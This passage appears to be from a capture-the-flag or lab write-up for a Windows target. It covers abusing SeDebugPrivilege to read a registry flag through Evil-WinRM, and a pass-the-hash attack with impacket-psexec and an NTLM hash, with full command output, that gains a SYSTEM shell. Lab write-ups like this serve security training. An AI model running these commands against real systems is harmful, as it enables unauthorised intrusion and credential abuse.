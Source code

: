 ### FLAG 4: Debug Privileges Exploitation

**Location**: Registry accessible with debug privileges  
**Difficulty**: Medium

```powershell
# Check current user's privileges
*Evil-WinRM* PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Enabled

# With SeDebugPrivilege, we can access protected processes/registry
*Evil-WinRM* PS C:\> reg query "HKLM\SOFTWARE\DebugPrivileges"

HKEY_LOCAL_MACHINE\SOFTWARE\DebugPrivileges
    WorkstationFlag    REG_SZ    FLAG{V***********2}
```

**🎯 FLAG 4 FOUND**: FLAG{V**********2} - Debug privilege flag

**Why Debug Privilege Matters**: SeDebugPrivilege allows:
- Reading any process memory
- Injecting into any process
- Accessing protected registry keys
- Essentially gives you SYSTEM access

### FLAG 5: Pass-the-Hash Success

**Location**: Administrator desktop after PTH  
**Difficulty**: Hard

Using NTLM hashes from Mimikatz:

```bash
# From Kali, use the localadmin NTLM hash
┌──(kali㉿kali)-[~]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:3e3e4c7f12afe3c99ff56cef3216897d localadmin@192.168.148.102

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.148.102.....
[*] Found writable share ADMIN$
[*] Uploading file qWcEHgfD.exe
[*] Opening SVCManager on 192.168.148.102.....
[*] Creating service xNqA on 192.168.148.102.....
[*] Starting service xNqA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19041.1234]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\pth_workstation_flag.txt
FLAG{B***********0}
```
